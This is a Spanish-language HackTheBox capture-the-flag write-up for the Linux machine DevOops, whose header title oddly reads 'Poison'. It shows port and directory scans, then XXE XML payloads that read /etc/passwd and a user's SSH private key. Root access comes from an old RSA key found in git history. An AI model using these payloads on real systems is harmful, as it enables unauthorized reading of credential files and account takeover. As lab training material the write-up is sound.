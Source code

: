 ```yaml
---
layout      : post
title       : "Poison - HackTheBox"
author      : elc4br4
image       : assets/images/HTB/DevOops-HackTheBox/DevOops.webp
category    : [ htb ]
tags        : [ Linux ]
---
```


Estamos ante una máquina Linux de nivel MEDIUM en la que explotaremos la vulnerabilidad XXE para leer archivos generando un archivo .xml y escalaremos privilegios a través de un rsa.

![](/assets/images/HTB/DevOops-HackTheBox/DevOops2.webp)

![](/assets/images/HTB/DevOops-HackTheBox/DevOops-rating.webp)

# Reconocimiento de Puertos

Para comenzar lanzo la herramienta WhichSystem para identificar ante que sistema operativo nos enfrentamos.

![](/assets/images/HTB/DevOops-HackTheBox/WhichSystem.webp)

Ya se que estamos ante una máquina Linux, asique a continuación escanearé los puertos existentes en la máquina.

```nmap
PORT     STATE SERVICE
22/tcp   open  ssh
5000/tcp open  upnp
```
Tenemos el puerto 22(ssh) y el puerto 5000 (upnp).

Pero necesito más información del puerto 5000 asique escanearé los puertos de forma más avanzada.

```nmap
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 42:90:e3:35:31:8d:8b:86:17:2a:fb:38:90:da:c4:95 (RSA)
|   256 b7:b6:dc:c4:4c:87:9b:75:2a:00:89:83:ed:b2:80:31 (ECDSA)
|_  256 d5:2f:19:53:b2:8e:3a:4b:b3:dd:3c:1f:c0:37:0d:00 (ED25519)
5000/tcp open  http    Gunicorn 19.7.1
|_http-server-header: gunicorn/19.7.1
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Ahora ya tenemos algo más de información, asique procedo a enumerar el servidor web.

# Enumeración Web

Accedo desde el navegador al servidor web.

![](/assets/images/HTB/DevOops-HackTheBox/web1.webp)

Parece que el sitio está en desarrollo, pero no hay nada interesante, asique voy a fuzzear rutas.

Usaré la herramienta wfuzz para enumerar rutas en el servidor web.

`wfuzz -c -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.10.91:5000/FUZZ --hl=4`

![](/assets/images/HTB/DevOops-HackTheBox/wfuzz.webp)

* upload
* feed

En la ruta feed no hay nada que pueda servirme.

Pero en la ruta upload hay un panel de subida de archivos

![](/assets/images/HTB/DevOops-HackTheBox/web2.webp)

# Explotación

Pruebo a subir una reverse shell en php y capturar la petición con Burpsuite.

![](/assets/images/HTB/DevOops-HackTheBox/revphp.webp)

Pero no ocurre nada, aunque si nos fijamos en el servidor web veremos esto.

> `XML elements: Author, Subject, Content'

Debemos subir un archivo XML que contenga los campos Author, Subject y Content.

Si hablamos de XML... se me ocurre XXE, asique buscaré información sobre la vulnerabilidad XXE.

Buscando encuentro información en la web de OWASP.

[https://owasp.org/www-community/vulnerabilities](https://owasp.org/www-community/vulnerabilities)

![](/assets/images/HTB/DevOops-HackTheBox/XXE.webp)

La sintaxis del archivo será la siguiente,añadiremos los campos Author, Subject y añadiremos el campo Content.


```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<creds>
  <Author>&xxe;</Author>
  <Subject>mysub</Subject>
  <Content>mycontent</Content>
</creds>
```

Subimos el archivo y capturamos la petición con Burp.

Enviamos la petición al Repeater y la enviamos haciendo click en send.

![](/assets/images/HTB/DevOops-HackTheBox/Burp1.webp)

Y como vemos tenemos el archivo passwd para leer.

Encuentro varios usuarios

```users
git:x:1001:1001:git,,,:/home/git:/bin/bash
roosa:x:1002:1002:,,,:/home/roosa:/bin/bash
sshd:x:121:65534::/var/run/sshd:/usr/sbin/nologin
blogfeed:x:1003:1003:,,,:/home/blogfeed:/bin/false
```
El más destacable es _roosa_, asique igual que he leido el archivo passwd intento leer el archivo id_rsa del usuario roosa para poder conectarme por ssh.

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///home/roosa/.ssh/id-rsa" >]>
<creds>
  <Author>&xxe;</Author>
  <Subject>mysub</Subject>
  <Content>mycontent</Content>
</creds>
```

![](/assets/images/HTB/DevOops-HackTheBox/Burp2.webp)

Y ahí lo tenemos, asique me lo copio a un archivo y le asigno los permisos 400 con `chmod 400 id_rsa`.

Una vez hecho, me conecto por ssh.

![](/assets/images/HTB/DevOops-HackTheBox/ssh.webp)

Y ya podemos leer la flag user.txt


# Escalada de Privilegios

Ahora toca escalar privilegios para leer la flag root, pero para eso debemos convertirnos en el usuario root.

Enumerando encuentro carpeta .git en la ruta /home/roosa/work/blogfeed/.git asique pruebo con el comando `git log -r` a ver que obtenemos. 

![](/assets/images/HTB/DevOops-HackTheBox/git.webp)

> reverted accidental commit with proper key

Dato curioso que decido mirar, asique si ejecuto `git log -p 6`...

![](/assets/images/HTB/DevOops-HackTheBox/git2.webp)

Tenemos dos claves rsa, una en rojo y la otra en verde, creo que debido a un error revirtieron las claves rsa, por lo tanto la roja es la clave antigua asique pruebo a copiarla y usarla para conectarme por ssh como root.

![](/assets/images/HTB/DevOops-HackTheBox/rsa.webp)

Una vez lo tenemos copiado en un archivo le asigamos los permisos 600 con `chmod 600 id_rsa2` y nos logueamos por ssh como root.

![](/assets/images/HTB/DevOops-HackTheBox/root.webp)

👨🏻‍💻Y ya hemos pwneado la máquina DevOops👨🏻‍💻

![](/assets/images/HTB/DevOops-HackTheBox/gif.gif)